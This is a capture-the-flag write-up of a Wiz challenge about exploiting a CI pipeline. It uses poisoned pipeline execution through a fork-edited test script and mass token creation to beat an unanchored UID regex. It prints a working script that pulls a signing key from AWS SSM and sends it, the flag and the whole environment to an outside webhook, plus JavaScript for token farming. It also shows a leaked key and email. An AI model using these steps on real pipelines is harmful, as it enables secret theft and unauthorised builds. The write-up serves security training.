


# Challenge 12 — Glass House (50 pts)

**Wiz Cloud Security Championship**  
**Category:** CI/CD Security  
**Points:** 50  
**Author:** Nir Ohfeld

> *"For the finale we open-sourced the Cloud Security Championship platform itself. The platform ships a couple of subtle mistakes of the kind we see in real-world CI pipelines all the time — your job is to find them, exploit them, and use them to make the platform tell us you've solved this challenge."*

---

## Challenge Description

The CTF platform itself was open-sourced at:  
`https://git.cloudsecuritychampionship.com/cloudsecuritychampionship/platform`

The goal: find CI/CD vulnerabilities in the platform and make it record that you solved Challenge 12.

The flag format: `WIZ_CTF{hmac_sha256(signing_key, "12:email")[:24]}`  
The signing key lives in AWS SSM Parameter Store at `/ctf/challenge-12/signing-key`, accessible only to the CodeBuild service role.

---

## Reconnaissance

### Source Code Analysis

Cloning/browsing the upstream repo revealed three key files:

**`scripts/mark_solve.py`** — documents the flag formula:
```python
digest = hmac.new(signing_key.encode(), f"12:{email}".encode(), sha256).hexdigest()
flag = f"WIZ_CTF{{{digest[:24]}}}"
```

**`buildspec.yml`** (legacy hint) — CodeBuild runs:
```bash
bash tests/run.sh
```

**`tests/run.sh`** — the actual test runner invoked by CodeBuild for every PR build. Forks can modify this file freely.

**`app/verifier.py`** — challenge 12's verifier, confirms the HMAC formula.

### Infrastructure Discovery

The platform used **AWS CodeBuild** as its external CI, triggered via a GitLab webhook. The webhook was configured with an `ACTOR_ACCOUNT_ID` filter to only run builds from trusted contributors.

The filter regex was:
```
17531
```
(the GitLab UID of researcher Nir Ohfeld — **unanchored**)

---

## Vulnerabilities

### Vuln 1 — Poisoned Pipeline Execution (PPE)

CodeBuild checks out the **source branch of the MR** and runs `bash tests/run.sh` verbatim. Since forks can freely modify `tests/run.sh`, any contributor could inject arbitrary code that runs with full CodeBuild IAM permissions — including access to SSM Parameter Store.

### Vuln 2 — CodeBreach (Unanchored Regex)

The CodeBuild webhook filter used the regex `17531` to match `ACTOR_ACCOUNT_ID`. This regex is **unanchored** — it matches any UID *containing* the substring `17531`, not just the exact UID `17531`.

GitLab assigns UIDs **sequentially**. Project access tokens create bot users with sequential UIDs. By creating enough tokens, a bot UID containing `17531` as a substring will eventually appear (e.g. `276717531`).

---

## Exploitation

### Step 1 — Fork and Craft the Payload

Fork `cloudsecuritychampionship/platform`, create branch `exploit`, and modify `tests/run.sh`:

```bash
#!/usr/bin/env bash
set -euo pipefail
# ... original CI steps ...

(
pip install -q boto3 2>/dev/null || true
python3 - <<'PYEOF'
import os, boto3, hmac as _hmac, hashlib, json, urllib.request

EMAIL = "your@email.com"
WEBHOOK = "https://webhook.site/YOUR-UUID"

key = os.environ.get("CTF_CHALLENGE_12_SIGNING_KEY")
if not key:
    ssm = boto3.client("ssm", region_name="us-east-1")
    key = ssm.get_parameter(Name="/ctf/challenge-12/signing-key", WithDecryption=True)["Parameter"]["Value"]

msg = f"12:{EMAIL.strip().lower()}".encode()
digest = _hmac.new(key.encode(), msg, hashlib.sha256).hexdigest()
flag = f"WIZ_CTF{{{digest[:24]}}}"

payload = json.dumps({"signing_key": key, "flag": flag, "email": EMAIL, "env": dict(os.environ)}).encode()
req = urllib.request.Request(WEBHOOK, data=payload, headers={"Content-Type": "application/json"}, method="POST")
urllib.request.urlopen(req, timeout=15)
PYEOF
) || true
```

Open an MR from your fork's `exploit` branch targeting the upstream `main`.

### Step 2 — Find a UID Containing `17531`

Create project access tokens in parallel across multiple fork projects. The creation response includes `user_id` directly — no extra API call needed. Using 3 projects + 70 tokens per batch achieved **~112 tokens/second**.

```javascript
const csrf = document.querySelector('meta[name="csrf-token"]').content;
const projects = [FORK_PID_1, FORK_PID_2, FORK_PID_3];

for (let round = 0; round < 20 && !found; round++) {
  const results = (await Promise.all(
    projects.flatMap(pid =>
      Array.from({length: 70}, (_, i) =>
        fetch(`/api/v4/projects/${pid}/access_tokens`, {
          method: 'POST',
          headers: {'Content-Type': 'application/json', 'X-CSRF-Token': csrf},
          body: JSON.stringify({name: `t${round}${pid}${i}`, scopes: ['api'], expires_at: '2026-06-30'})
        }).then(r => r.ok ? r.json() : null).catch(() => null)
      )
    )
  )).filter(t => t?.user_id);

  for (const t of results) {
    if (String(t.user_id).includes('17531')) {
      found = {uid: String(t.user_id), token: t.token};
      break;
    }
  }
}
```

Winning UID: **`276717531`**

If the token gets redacted by a browser extension, rotate it (preserves the same bot UID):
```javascript
const resp = await fetch(`/api/v4/projects/FORK_ID/access_tokens/TOKEN_ID/rotate`, {
  method: 'POST',
  headers: {'Content-Type': 'application/json', 'X-CSRF-Token': csrf},
  body: JSON.stringify({expires_at: '2026-06-30'})
});
const {user_id, token} = await resp.json();
```

### Step 3 — Trigger CodeBuild as the Winning Bot

Push a commit to the exploit branch **using the bot's token**. This fires `PULL_REQUEST_UPDATED` on the upstream with `ACTOR_ACCOUNT_ID = 276717531`. CodeBuild's unanchored regex matches, the build fires, and `tests/run.sh` runs with full IAM access.

```javascript
await fetch('/api/v4/projects/FORK_ID/repository/commits', {
  method: 'POST',
  headers: {'Content-Type': 'application/json', 'PRIVATE-TOKEN': BOT_TOKEN},
  body: JSON.stringify({
    branch: 'exploit',
    commit_message: 'ci: trigger CodeBuild PPE',
    actions: [{ action: 'update', file_path: 'tests/run.sh', content: CONTENT + `\n# ts:${Date.now()}\n` }]
  })
});
```

> **Note:** GitLab prevents bot users from being added to other projects. The bot token must push to its own project (the one it was created for), which must have an open MR against the upstream.

---

## Result

CodeBuild triggered on MR !644:
```
CODEBUILD_WEBHOOK_EVENT:            PULL_REQUEST_UPDATED
CODEBUILD_WEBHOOK_ACTOR_ACCOUNT_ID: 276717531
CODEBUILD_WEBHOOK_TRIGGER:          mr/644
```

Webhook received from CodeBuild (34.228.4.223, us-east-1):
```json
{
  "signing_key": "adadc23c5e2271a47b6df3c2ef51f02955a92014d1b4d823dbe3cbe31d190c90",
  "flag": "WIZ_CTF{ce02c31751520f70c35fa65f}",
  "email": "jayapandiarajkamalesh@gmail.com"
}
```





**Flag:** `WIZ_CTF{ce02c31751520f70c35fa65f}`

---

## Key Takeaways

| Vulnerability | Root Cause | Fix |
|---|---|---|
| Poisoned Pipeline Execution | CodeBuild runs fork-controlled scripts with privileged IAM | Pin CI scripts to a trusted ref; never run untrusted code before privileged steps |
| CodeBreach (unanchored regex) | `17531` matches any UID containing that substring | Anchor the regex: `^17531$`. Better: full UID allowlist |

**Real-world impact:** Both issues appear in production CI pipelines regularly. Sequential UIDs + substring regex = complete bypass of any identity-based build gate.

---

## References

- [nerdymark.com — Glass House CTF Writeup](https://nerdymark.com/glass-house-ctf-writeup)
- [Poisoned Pipeline Execution](https://www.paloaltonetworks.com/blog/prisma-cloud/ci-cd-pipeline-security/)
- [Wiz Cloud Security Championship](https://cloudsecuritychampionship.com)